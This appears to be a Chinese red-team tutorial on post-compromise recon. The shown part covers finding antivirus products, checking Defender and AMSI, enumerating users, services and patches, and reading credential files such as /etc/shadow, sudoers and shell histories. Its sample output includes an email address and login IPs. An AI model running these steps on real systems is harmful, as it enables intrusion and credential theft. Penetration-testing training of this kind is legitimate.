# [Red Team: Lateral Movement](https://www.raingray.com/archives/2474.html)

在拿下据点后隧道也已经建立，需要经由据点对内网中其他机器横向渗透（Pivot）。

## 目录

-   [目录](#%E7%9B%AE%E5%BD%95)
-   [1 内网信息收集](#1+%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)
    -   [1.1 单机信息收集](#1.1+%E5%8D%95%E6%9C%BA%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)
        -   [1.1.1 进程、服务、应用与任务计划](#1.1.1+%E8%BF%9B%E7%A8%8B%E3%80%81%E6%9C%8D%E5%8A%A1%E3%80%81%E5%BA%94%E7%94%A8%E4%B8%8E%E4%BB%BB%E5%8A%A1%E8%AE%A1%E5%88%92)
        -   [1.1.2 用户和组](#1.1.2+%E7%94%A8%E6%88%B7%E5%92%8C%E7%BB%84)
        -   [1.1.3 系统](#1.1.3+%E7%B3%BB%E7%BB%9F)
        -   [1.1.4 网络](#1.1.4+%E7%BD%91%E7%BB%9C)
        -   [1.1.5 凭证获取](#1.1.5+%E5%87%AD%E8%AF%81%E8%8E%B7%E5%8F%96)
            -   [文件系统](#%E6%96%87%E4%BB%B6%E7%B3%BB%E7%BB%9F)
            -   [浏览器](#%E6%B5%8F%E8%A7%88%E5%99%A8)
            -   [PowerShell 历史命令⚒️](#PowerShell+%E5%8E%86%E5%8F%B2%E5%91%BD%E4%BB%A4%E2%9A%92%EF%B8%8F)
            -   [剪切板⚒️](#%E5%89%AA%E5%88%87%E6%9D%BF%E2%9A%92%EF%B8%8F)
            -   [共享](#%E5%85%B1%E4%BA%AB)
            -   [回收站](#%E5%9B%9E%E6%94%B6%E7%AB%99)
            -   [Wi-Fi](#Wi-Fi)
            -   [凭证管理器⚒️](#%E5%87%AD%E8%AF%81%E7%AE%A1%E7%90%86%E5%99%A8%E2%9A%92%EF%B8%8F)
            -   [PPTP](#PPTP)
            -   [键盘记录⚒️](#%E9%94%AE%E7%9B%98%E8%AE%B0%E5%BD%95%E2%9A%92%EF%B8%8F)
            -   [社交软件聊天记录](#%E7%A4%BE%E4%BA%A4%E8%BD%AF%E4%BB%B6%E8%81%8A%E5%A4%A9%E8%AE%B0%E5%BD%95)
            -   [其他常用软件](#%E5%85%B6%E4%BB%96%E5%B8%B8%E7%94%A8%E8%BD%AF%E4%BB%B6)
            -   [Windows 本地账户哈希和密码获取](#Windows+%E6%9C%AC%E5%9C%B0%E8%B4%A6%E6%88%B7%E5%93%88%E5%B8%8C%E5%92%8C%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96)
                -   [Credential Guard⚒️](#Credential+Guard%E2%9A%92%EF%B8%8F)
            -   [Active Directory 数据库账户哈希获取](#Active+Directory+%E6%95%B0%E6%8D%AE%E5%BA%93%E8%B4%A6%E6%88%B7%E5%93%88%E5%B8%8C%E8%8E%B7%E5%8F%96)
        -   [1.1.6 自动化信息收集工具](#1.1.6+%E8%87%AA%E5%8A%A8%E5%8C%96%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E5%B7%A5%E5%85%B7)
    -   [1.2 Active Directory 信息收集](#1.2+Active+Directory+%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)
        -   [1.2.1 用户](#1.2.1+%E7%94%A8%E6%88%B7)
        -   [1.2.2 组信息](#1.2.2+%E7%BB%84%E4%BF%A1%E6%81%AF)
        -   [1.2.3 主机信息](#1.2.3+%E4%B8%BB%E6%9C%BA%E4%BF%A1%E6%81%AF)
        -   [1.2.4 组织单元](#1.2.4+%E7%BB%84%E7%BB%87%E5%8D%95%E5%85%83)
        -   [1.2.5 Kerberos 委派](#1.2.5+Kerberos+%E5%A7%94%E6%B4%BE)
        -   [1.2.6 组策略⚒️](#1.2.6+%E7%BB%84%E7%AD%96%E7%95%A5%E2%9A%92%EF%B8%8F)
        -   [1.2.7 其他自动化侦察工具⚒️](#1.2.7+%E5%85%B6%E4%BB%96%E8%87%AA%E5%8A%A8%E5%8C%96%E4%BE%A6%E5%AF%9F%E5%B7%A5%E5%85%B7%E2%9A%92%EF%B8%8F)
        -   [1.2.8 DACL](#1.2.8+DACL)
        -   [1.2.9 域信任](#1.2.9+%E5%9F%9F%E4%BF%A1%E4%BB%BB)
        -   [1.2.10 ADCS](#1.2.10+ADCS)
-   [2 内网主机存活探测及服务发现](#2+%E5%86%85%E7%BD%91%E4%B8%BB%E6%9C%BA%E5%AD%98%E6%B4%BB%E6%8E%A2%E6%B5%8B%E5%8F%8A%E6%9C%8D%E5%8A%A1%E5%8F%91%E7%8E%B0)
    -   [2.1 NetBIOS⚒️](#2.1+NetBIOS%E2%9A%92%EF%B8%8F)
    -   [2.2 SNMP⚒️](#2.2+SNMP%E2%9A%92%EF%B8%8F)
    -   [2.3 ICMP](#2.3+ICMP)
    -   [2.4 ARP](#2.4+ARP)
    -   [2.5 SMB](#2.5+SMB)
    -   [2.6 端口扫描](#2.6+%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F)
        -   [2.6.1 TCP](#2.6.1+TCP)
        -   [2.6.2 UDP](#2.6.2+UDP)
-   [3 内网横向移动](#3+%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)
    -   [3.1 Active Directory 利用⚒️](#3.1+Active+Directory+%E5%88%A9%E7%94%A8%E2%9A%92%EF%B8%8F)
        -   [3.1.1 Kerberos⚒️](#3.1.1+Kerberos%E2%9A%92%EF%B8%8F)
            -   [AS-REQ Username Enumeration⚒️](#AS-REQ+Username+Enumeration%E2%9A%92%EF%B8%8F)
            -   [AS-REQ Password Spary⚒️](#AS-REQ+Password+Spary%E2%9A%92%EF%B8%8F)
            -   [AS-REP Roasting](#AS-REP+Roasting)
            -   [Kerberoasting](#Kerberoasting)
            -   [Pass the Ticket（PtT）⚒️](#Pass+the+Ticket%EF%BC%88PtT%EF%BC%89%E2%9A%92%EF%B8%8F)
            -   [Over Pass the Hash（OPtH）⚒️](#Over+Pass+the+Hash%EF%BC%88OPtH%EF%BC%89%E2%9A%92%EF%B8%8F)
            -   [PAC⚒️](#PAC%E2%9A%92%EF%B8%8F)
                -   [MS14-068 Privilege Escalation（CVE-2014-6324）](#MS14-068+Privilege+Escalation%EF%BC%88CVE-2014-6324%EF%BC%89)
                -   [NoPac Privilege Escalation（CVE-2021-42278）](#NoPac+Privilege+Escalation%EF%BC%88CVE-2021-42278%EF%BC%89)
            -   [委派](#%E5%A7%94%E6%B4%BE)
                -   [非约束委派](#%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)
                -   [约束委派⚒️](#%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E2%9A%92%EF%B8%8F)
                -   [基于资源的约束委派⚒️](#%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E2%9A%92%EF%B8%8F)
        -   [3.1.2 DACL Abuse](#3.1.2+DACL+Abuse)
        -   [3.1.3 Zerologon Privilege Escalation（CVE-2020-1472）⚒️](#3.1.3+Zerologon+Privilege+Escalation%EF%BC%88CVE-2020-1472%EF%BC%89%E2%9A%92%EF%B8%8F)
        -   [3.1.4 ADCS Privilege Escalation（CVE-2022-26923）⚒️](#3.1.4+ADCS+Privilege+Escalation%EF%BC%88CVE-2022-26923%EF%BC%89%E2%9A%92%EF%B8%8F)
        -   [Silver Tickets](#Silver+Tickets)
        -   [Golden Ticket](#Golden+Ticket)
        -   [DCSync（Domain Controller Synchronization）](#DCSync%EF%BC%88Domain+Controller+Synchronization%EF%BC%89)
    -   [3.2 NTLM](#3.2+NTLM)
        -   [3.2.1 Windows 认证概要](#3.2.1+Windows+%E8%AE%A4%E8%AF%81%E6%A6%82%E8%A6%81)
            -   [本地认证：LM hash 和 NT hash 计算过程](#%E6%9C%AC%E5%9C%B0%E8%AE%A4%E8%AF%81%EF%BC%9ALM+hash+%E5%92%8C+NT+hash+%E8%AE%A1%E7%AE%97%E8%BF%87%E7%A8%8B)
            -   [网络认证：NTLM 认证过程](#%E7%BD%91%E7%BB%9C%E8%AE%A4%E8%AF%81%EF%BC%9ANTLM+%E8%AE%A4%E8%AF%81%E8%BF%87%E7%A8%8B)
        -   [3.2.2 Crack NT hash 和 NTLM hash](#3.2.2+Crack+NT+hash+%E5%92%8C+NTLM+hash)
        -   [3.2.3 Pass The Hash（PtH）](#3.2.3+Pass+The+Hash%EF%BC%88PtH%EF%BC%89)
        -   [3.2.4 NTLM Relaying](#3.2.4+NTLM+Relaying)
            -   [捕获 NTLM 哈希](#%E6%8D%95%E8%8E%B7+NTLM+%E5%93%88%E5%B8%8C)
            -   [将哈希中继到其他服务](#%E5%B0%86%E5%93%88%E5%B8%8C%E4%B8%AD%E7%BB%A7%E5%88%B0%E5%85%B6%E4%BB%96%E6%9C%8D%E5%8A%A1)
                -   [SMB To SMB](#SMB+To+SMB)
                -   [HTTP To LDAP⚒️](#HTTP+To+LDAP%E2%9A%92%EF%B8%8F)
                -   [HTTP To HTTP⚒️](#HTTP+To+HTTP%E2%9A%92%EF%B8%8F)
            -   [扩展：NTLMv1 降级攻击⚒️](#%E6%89%A9%E5%B1%95%EF%BC%9ANTLMv1+%E9%99%8D%E7%BA%A7%E6%94%BB%E5%87%BB%E2%9A%92%EF%B8%8F)
    -   [3.3 Remote Services⚒️](#3.3+Remote+Services%E2%9A%92%EF%B8%8F)
        -   [SMB](#SMB)
            -   [MS08-067](#MS08-067)
            -   [MS17-010（EhernalBlue，永恒之蓝）](#MS17-010%EF%BC%88EhernalBlue%EF%BC%8C%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%EF%BC%89)
        -   [PsExec⚒️](#PsExec%E2%9A%92%EF%B8%8F)
        -   [WinRM](#WinRM)
        -   [WMI](#WMI)
        -   [DCOM](#DCOM)
        -   [Winexe](#Winexe)
        -   [RDP](#RDP)
        -   [SSH](#SSH)
        -   [VNC](#VNC)
        -   [File Share](#File+Share)
        -   [SQL Server⚒️](#SQL+Server%E2%9A%92%EF%B8%8F)
        -   [Exchange⚒️](#Exchange%E2%9A%92%EF%B8%8F)
        -   [vCenter](#vCenter)
-   [参考资料](#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99)

## 1 内网信息收集

外网 Recon 是为了获取入口权限，内网信息收集是为提权和下一步横向移动到其他机器在现有据点做信息工作。

### 1.1 单机信息收集

为了和域信息收集区分，将每台机器统称单机。

刚拿到权限首先要做的是确定目标系统上有什么终端防护软件，比如杀软、安全助手，方便后续进行其他操作不会拦截。

在普通 Windows 系统上可以通过命名空间 SecurityCenter2 查询到 Windows 安全中心中的信息，我们可以通过 timestamp 来判断最近一次运行事件。需要注意的是这在 Windows Server 上无法使用。



WMIC 查询。

```plaintext
PS C:\Users\gbb> wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,pathToSignedReportingExe /Format:List


displayName=Windows Defender
pathToSignedReportingExe=%ProgramFiles%\Windows Defender\MsMpeng.exe


displayName=火绒安全软件
pathToSignedReportingExe=D:\Sysdiag\Huorong\Sysdiag\bin\wsctrlsvc.exe
```

PowerShell 查询。

```plaintext
PS C:\Users\gbb> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct


displayName              : Windows Defender
instanceGuid             : {D68DDC3A-831F-4fae-9E44-DA132C1ACF46}
pathToSignedProductExe   : windowsdefender://
pathToSignedReportingExe : %ProgramFiles%\Windows Defender\MsMpeng.exe
productState             : 393472
timestamp                : Tue, 28 Jul 2020 05:51:34 GMT
PSComputerName           :

displayName              : 火绒安全软件
instanceGuid             : {4C17E7AE-043A-D732-91B8-D139C9EB6B26}
pathToSignedProductExe   : D:\Sysdiag\Huorong\Sysdiag\bin\wsctrlsvc.exe
pathToSignedReportingExe : D:\Sysdiag\Huorong\Sysdiag\bin\wsctrlsvc.exe
productState             : 266240
timestamp                : Mon, 16 Oct 2023 10:53:44 GMT
PSComputerName           :
```

PowerShell 查询 Defender 服务启用状态。

```plaintext
PS C:\Users\gbb> Get-Service WinDefend

Status   Name               DisplayName
------   ----               -----------
Stopped  WinDefend          Microsoft Defender Antivirus Service
```

查询 Defender 实时保护启用状态。

```plaintext
PS C:\Users\gbb> Get-MpComputerStatus | select RealTimeProtectionEnabled

RealTimeProtectionEnabled
-------------------------
                    False
```

通过进程名称查询安装了哪些杀软和终端 Agent。常见杀软名称：[avList](https://github.com/gh0stkey/avList)。



AMSI 检查。

```plaintext
PS C:\Users\gbb> powershell -c 'Invoke-Mimikatz'
所在位置 行:1 字符: 1
+ Invoke-Mimikatz
+ ~~~~~~~~~~~~~~~
此脚本包含恶意内容，已被你的防病毒软件阻止。
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

#### 1.1.1 进程、服务、应用与任务计划

1.进程

```plaintext
// Windows 进程信息
tasklist /svc
wmic process list brief
Get-Process -Name <Process Name>

// Windows 查看进程名称、进程 ID、进程对应服务
tasklist /SRC
wmic service list brief

// Linux 查看进程
ps aux
ps -ef

// Linux 查看进程，此目录中数字目录是进程 ID，里面是进程文件信息。
ls -al /proc/

// Linux 资源情况展示
top
```

2.服务

Windows 中 用 net start 查询哪些服务已启动。这里展示的是服务显示名称，而不是真正服务创建时的名称。

```plaintext
PS C:\Users\gbb> net start
已经启动以下 Windows 服务:

   Adguard Service
   Apple Mobile Device Service
   Application Information
   AppX Deployment Service (AppXSVC)
   OpenVPN Agent agent_ovpnconnect
   ......
```

当然 sc query 也能查看所有 Windows 已经运行的服务信息。其中也包含服务名称和服务显示名称，只是展示样式不方便阅读。

```plaintext
SERVICE_NAME: Adguard Service
DISPLAY_NAME: Adguard Service
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: agent_ovpnconnect
DISPLAY_NAME: OpenVPN Agent agent_ovpnconnect
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
......
```

通过 wmic 查询服务显示名称（条件改成 name 就是查服务名称）得到服务启动的应用程序路径，后面就可以根据路径中的应用名称去进程中同名应用，通过应用的进程 id，结合网络连接中的进程 id 来看开放了哪些端口，这样透过服务到端口后续就可以进一步利用去提权啥的。

```plaintext
PS C:\Users\gbb> wmic service where "displayname like 'OpenVPN Agent agent_ovpnconnect'" get displayname,name,pathname,startmode
DisplayName                      Name               PathName                                                                StartMode
OpenVPN Agent agent_ovpnconnect  agent_ovpnconnect  "C:\Program Files\OpenVPN Connect\agent_ovpnconnect_1692705797176.exe"  Auto
```

Linux 上查询比较简单直观，这里就只写不太熟悉的 Windows 操作。

```plaintext
// Linux CentOS7 及以前版本来查有哪些服务，状态如何。
service -status-all

// Linux 高版本有哪些服务单元
systemctl -a

// Linux 启动服务
service <Name> start
systemctl start <Name>

// Linux 停止服务
service <Name> stop
systemctl stop <Name>

// Linux 查看服务状态
service <Name> status
systemctl status <Name>

// Linux IANA 默认情况端口对应服务
/etc/services

// Linux 此文件里存放着公钥（~/.ssh/id_rsa.pub、~/.ssh/identity.pub），其他机器使用 SSH 连接会自动拿着自己的私钥（~/.ssh/id_rsa、~/.ssh/identity）与此文件里的公钥匹配，成功即可登录。
cat ~/.ssh/authorized_keys

// Linux 服务端 SSH 配置文件，需要 root 权限读取
cat /etc/ssh/sshd_config

// Linux 客户端端 SSH 配置文件，其他用户可读
cat /etc/ssh/ssh_config
```

启动项

```plaintext
// 启动程序信息（启动项）
wmic startup get command,caption
```

3.应用

获取使用 Windows Installer 安装的软件和版本信息，后期可根据版本信息提权。

```plaintext
// 获取不全可以参考此文进行拓展：https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E8%8E%B7%E5%BE%97%E5%BD%93%E5%89%8D%E7%B3%BB%E7%BB%9F%E5%B7%B2%E5%AE%89%E8%A3%85%E7%9A%84%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8
wmic product get name, version, vendor, InstallLocation

powershell "Get-WmiObject -class Win32_Product | Select-Object -Property name,version,InstallLocation"
```

获取 RDP 端口，获取值是十六进制需要手动转换为数字，如 0xd3d 为 3389。

```plaintext
C:\Users\gbb>REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
    PortNumber    REG_DWORD    0xd3d
```

4.任务计划

```plaintext
// 计划任务信息，Windows 10 之前可以使用，从 Windows 10 开始此命令废弃改为 schtasks
at

// Windows 10 及以后版本查所有计划任务列表。详情信息。如果执行遇到问题 “错误：无法加载列资源”，更改编码 chcp 437 再执行。
schtasks /query /fo LIST
// /v 可以展示所有详情
schtasks /query /fo LIST /v
// /tn 选项可以读指定任务详情
schtasks /query /tn 任务名称 /fo LIST /v

// Linux 任务计划
// 其中 /etc/crontab 是每个用户的任务计划配置内容，如果任务计划目标要执行的文件可写或可以被替换那么就能提权。
ls -lah /etc/cron*
```

#### 1.1.2 用户和组

当前主机或用户是充当什么角色？是 Web、DNS、DB、File、Proxy、Gateway 吗？

当前用户权限是什么？查看当前用户权限。

```plaintext
C:\Users\gbb>whoami /all

用户信息
----------------

用户名       SID
============ ==============================================
raingray\gbb S-1-5-21-3024751843-2535029458-3924619718-1001


组信息
-----------------

组名                                   类型   SID
                                  属性
====================================== ====== =========================================================================================================== ==============================
Mandatory Label\Medium Mandatory Level 标签   S-1-16-8192

Everyone                               已知组 S-1-1-0
                                  必需的组, 启用于默认, 启用的组
NT AUTHORITY\本地帐户和管理员组成员    已知组 S-1-5-114
                                  只用于拒绝的组
BUILTIN\Administrators                 别名   S-1-5-32-544
                                  只用于拒绝的组
BUILTIN\Performance Log Users          别名   S-1-5-32-559
                                  必需的组, 启用于默认, 启用的组
BUILTIN\Users                          别名   S-1-5-32-545
                                  必需的组, 启用于默认, 启用的组
NT AUTHORITY\INTERACTIVE               已知组 S-1-5-4
                                  必需的组, 启用于默认, 启用的组
CONSOLE LOGON                          已知组 S-1-2-1
                                  必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users       已知组 S-1-5-11
                                  必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization         已知组 S-1-5-15
                                  必需的组, 启用于默认, 启用的组
MicrosoftAccount\jiaegbb@gmail.com     用户   S-1-11-96-3623454863-58364-18864-2661722203-1597581903-396989860-1997158695-468722874-3650037168-2631757137 必需的组, 启用于默认, 启用的组
NT AUTHORITY\本地帐户                  已知组 S-1-5-113
                                  必需的组, 启用于默认, 启用的组
LOCAL                                  已知组 S-1-2-0
                                  必需的组, 启用于默认, 启用的组
NT AUTHORITY\云帐户身份验证            已知组 S-1-5-64-36
                                  必需的组, 启用于默认, 启用的组


特权信息
----------------------

特权名                        描述                 状态
============================= ==================== ======
SeShutdownPrivilege           关闭系统             已禁用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeUndockPrivilege             从扩展坞上取下计算机 已禁用
SeIncreaseWorkingSetPrivilege 增加进程工作集       已禁用
SeTimeZonePrivilege           更改时区             已禁用
```

Linux 显示当前用户名，UID 和 GID。

```plaintext
ubuntu@TeamServer:~$ whoami
ubuntu
ubuntu@TeamServer:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
```

Windows 当前主机名是什么，通常可以用来判断主机角色，用途是什么。

```plaintext
C:\Users\gbb>hostname
raingray
```

Windows 查询用户详细信息，可能会有注释说明用户用途。还能发现账户命名规则是怎样的，有可能大部分系统账户命令规则都一样，可以复用来爆破密码。

```plaintext
net user <UserName>
```

系统密码策略细节是什么？Windows 查询当前用户密码策略，比如多少天后过期，密码最小长度。方便制定测试策略，比如喷洒其他账户时参考策略设置避免账户锁定。

```plaintext
C:\Users\wuhui>net accounts
强制用户在时间到期之后多久必须注销?:     从不
密码最短使用期限(天):                    1
密码最长使用期限(天):                    42
密码长度最小值:                          7
保持的密码历史记录长度:                  24
锁定阈值:                                从不
锁定持续时间(分):                        10
锁定观测窗口(分):                        10
计算机角色:                              WORKSTATION
命令成功完成。
```

Windows 查看系统所有用户

````plaintext
C:\Users\wuhui>net user

\\DESKTOP-5T90749 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
WDAGUtilityAccount       wuhui
命令成功完成。
···

Windows 查看系统所有组，用于区分角色，访问了解当前系统有哪些角色。

```text
C:\Users\wuhui>net localgroup

\\DESKTOP-5T90749 的别名

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Remote Desktop Users
*Remote Management Users
*Replicator
*System Managed Accounts Group
*Users
命令成功完成。
````

要查看某个组内用户就跟上组名。

```plaintext
C:\Users\wuhui>net localgroup administrators
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------
Administrator
RAINGRAY0\Domain Admins
wuhui
命令成功完成。
```

Windows 查看用户家目录 %USERPROFILE%（%SystemDrive%%HOMEPATH% 也可以查到），可以翻文件，比如 SSH 服务，和其他配置文件。

```plaintext
C:\Users\gbb>echo %USERPROFILE%
C:\Users\gbb
C:\Users\gbb>dir /A %USERPROFILE%
 驱动器 C 中的卷是 System
 卷的序列号是 26C4-53F2

 C:\Users\gbb 的目录

2023/10/18  09:53    <DIR>          .
2023/10/17  08:39    <DIR>          ..
2023/04/05  22:59             3,565 .aggressor.prop
2023/06/12  10:05    <DIR>          .android
2021/04/05  00:27                 0 .bashrc
2022/10/03  11:20             1,474 .bash_history
2021/04/23  10:42               104 .bash_profile
......
```

Linux 查以前都有谁登录过登录了多久。

```plaintext
ubuntu@TeamServer:~$ who
ubuntu   pts/0        2023-10-18 07:31 (223.104.41.168)
ubuntu   pts/1        2023-03-16 03:11 (tmux(21910).%13)
ubuntu   pts/2        2023-02-10 02:51 (tmux(21910).%1)
ubuntu   pts/3        2023-04-13 02:11 (tmux(21910).%17)
ubuntu   pts/4        2023-02-20 14:49 (tmux(155706).%0)
ubuntu   pts/5        2023-03-04 17:40 (tmux(21910).%10)
ubuntu   pts/6        2023-04-19 03:14 (tmux(21910).%18)
ubuntu   pts/7        2023-04-19 06:01 (tmux(21910).%19)
```

更详细的信息使用 w 还可以查询登陆的用户从哪里登录的，以及当前执行了什么命令。

```plaintext
ubuntu@TeamServer:~$ w
 07:31:47 up 251 days, 22:43,  8 users,  load average: 0.56, 0.12, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ubuntu   pts/0    223.104.41.168   07:31    2.00s  0.03s  0.00s w
ubuntu   pts/1    tmux(21910).%13  16Mar23 142days  0.03s  0.03s -bash
ubuntu   pts/3    tmux(21910).%17  13Apr23 180days  0.13s  0.13s -bash
ubuntu   pts/5    tmux(21910).%10  04Mar23 194days 18:38  18:38  ssh -N -R 8443:127.0.0.1:443 root@185.238.250.79
```

还可以查以前都有谁登录。

```plaintext
ubuntu@TeamServer:~$ last
ubuntu   pts/0        223.104.41.168   Wed Oct 18 07:31   still logged in
ubuntu   pts/0        223.104.41.168   Wed Oct 18 07:27 - 07:28  (00:01)
root     pts/3        223.104.41.104   Mon Apr 10 06:38 - 06:38  (00:00)
c5       pts/3        223.104.41.104   Mon Apr 10 06:07 - 06:07  (00:00)
c5       pts/3        223.104.41.104   Mon Apr 10 06:06 - 06:06  (00:00)2)
ubuntu   pts/0        54.240.200.68    Wed Feb  8 08:49 - 08:53  (00:03)
reboot   system boot  5.4.0-1018-aws   Wed Feb  8 08:47   still running
......
```

```plaintext
// Linux 查看所有用户信息，能不能登录，用户名、UID、GID 是什么。只 root.root 有权限读此文件。
cat /etc/passwd

// Linux 系统密码存放文件。只 root.root 有权限读此文件。
/etc/shadow

// Linux BSD 系统密码文件，等同于 /etc/shadow
cat /etc/master.passwd

// Linux 用户组
cat /etc/group

// Linux 哪些用户能够使用 sudo，只 root.root 有权限读此文件。
cat /etc/sudoers

// Linux 查看 sudo 程序版本
sudo -V

// 收集当前 /home 下所有 Shell 的配置文件，但实际用户 home 目录不一定在 /home 下，这时候需要查看 /etc/passwd 来确认
// - Bash：.bashrc、.bash_profile、.bash_logout、.bash_history
// - zsh：.zsh_history
// - ksh
// 一把梭待收集完成。
// find /home -name .bashrc -exec cat {} \; | tee -a conf.txt
// find /home -iname ".*rc" -o -name ".*profile" -o -name ".*logout" -o -name ".*history" -name ".*sh" | tee -a conf.txt

// Linux 查看环境变量配置
cat /etc/profile
cat ~/.bash_profile
cat /etc/bashrc

// Linux 查看当前用户 Shell 历史执行命令。
cat ~/.bash_history
history

// Linux 用户退出 Shell 执行的命令
cat ~/.bash_logout
```

当前主机管理员是否在线，系统时间是多少，用于判断上机习惯，通过截图（Screenshots）确认当前桌面状态。

```plaintext
// Windows Server 查有哪些用户会话正在连接，可以判断用户什么时候连接进来，空闲了多久没用。
quer
query user
query user || qwinsta

// Linux 当前有哪些用户登录
w

// Linux 上一次用户登录记录
last

// Linux 展示每个用户最近一次登录的时间
lastlog
// Linux 指定用户登录情况
lastlog -u <UserName> 

// Windows 查看主机开启日期
net statistics workstation

// Windows 展示本地计算机与客户端的对话（Win11 下普通权限无法执行）
net session
```

截图使用 Meterpreter 或 Cobalt Strike Beacon 实施。

#### 1.1.3 系统

1.查看系统信息，供后续提权用。

systeminfo 主要有什么信息？

```plaintext
C:\Users\gbb>SYSTEMINFO

主机名：RAINGRAY
OS 名称：Microsoft Windows 11 家庭中文版
OS 版本：10.0.22621 暂缺 Build 22621
OS 制造商：Microsoft Corporation
OS 配置：独立工作站
OS 构建类型：Multiprocessor Free
注册的所有人：gbb
注册的组织：暂缺
产品 ID:          00342-35884-34960-AAOEM
初始安装日期：2022/9/22, 20:38:03
系统启动时间：2023/10/17, 8:32:32
系统制造商：LENOVO
系统型号：82B6
系统类型：x64-based PC
处理器：安装了 1 个处理器。
                  [01]: AMD64 Family 23 Model 96 Stepping 1 AuthenticAMD ~2900 Mhz
BIOS 版本：LENOVO EUCN39WW, 2022/9/9
Windows 目录：C:\WINDOWS
系统目录：C:\WINDOWS\system32
启动设备：        \Device\HarddiskVolume1
系统区域设置：zh-cn;中文 (中国)
输入法区域设置：zh-cn;中文 (中国)
时区：            (UTC+08:00) 北京，重庆，香港特别行政区，乌鲁木齐
物理内存总量：32,125 MB
可用的物理内存：21,368 MB
虚拟内存：最大值：34,173 MB
虚拟内存：可用：20,611 MB
虚拟内存：使用中：13,562 MB
页面文件位置：C:\pagefile.sys
域：WORKGROUP
登录服务器：      \\RAINGRAY
修补程序：安装了 4 个修补程序。
                  [01]: KB5030651
                  [02]: KB5012170
                  [03]: KB5031354
                  [04]: KB5031592
网卡：安装了 11 个 NIC。
                  [01]: VMware Virtual Ethernet Adapter for VMnet1
                      连接名：VMware Network Adapter VMnet1
                      启用 DHCP:   否
                      IP 地址
                        [01]: 192.168.5.1
                        [02]: fe80::d155:6d8b:78d3:175b
                  ......
Hyper-V 要求：已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
```

主要查看更新的补丁，这里发现 KB 开头的四个补丁。之后可以针对系统已有缺陷打 MS17010，MS08067，CVE2019-0708 等通用漏洞。

```plaintext
PS C:\Users\gbb> systeminfo | findstr KB
                  [01]: KB5030651
                  [02]: KB5012170
                  [03]: KB5031354
                  [04]: KB5031592
```

也可以用 wmic 获取更新补丁名称、补丁号、描述、安装时间，与 systeminfo 相互补充。

```plaintext
PS C:\Users\gbb> wmic qfe get Caption,Description,HotFixID,InstalledOn
Caption                                     Description      HotFixID   InstalledOn
http://support.microsoft.com/?kbid=5030651  Update           KB5030651  10/12/2023
https://support.microsoft.com/help/5012170  Security Update  KB5012170  12/7/2022
https://support.microsoft.com/help/5031354  Security Update  KB5031354  10/12/2023
                                            Update           KB5031592  10/12/2023
```

此外还能观察到系统版本、类型。

```plaintext
C:\Users\gbb>:: 查看英文系统信息
C:\Users\gbb>:: systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
C:\Users\gbb>
C:\Users\gbb>:: 查看中文系统信息
C:\Users\gbb>systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本" /C:"系统类型："
OS 名称：Microsoft Windows 11 家庭中文版
OS 版本：10.0.22621 暂缺 Build 22621
系统类型：x64-based PC
C:\Users\gbb>
C:\Users\gbb>:: Windows 查看系统架构
C:\Users\gbb>echo %PROCESSOR_ARCHITECTURE%
AMD64
```

同样 wmic 也能查系统版本和类型。

```plaintext
C:\Users\gbb>:: 查看当前系统版本
C:\Users\gbb>wmic OS get Caption,CSDVersion,OSArchitecture,Version
Caption                          CSDVersion  OSArchitecture  Version
Microsoft Windows 11 Home China              64-bit          10.0.22621
```

```cpp
// 查看目录权限
icacls "<DirName>"
```

Linux 系统信息

```plaintext
// 查看主机名
hostname
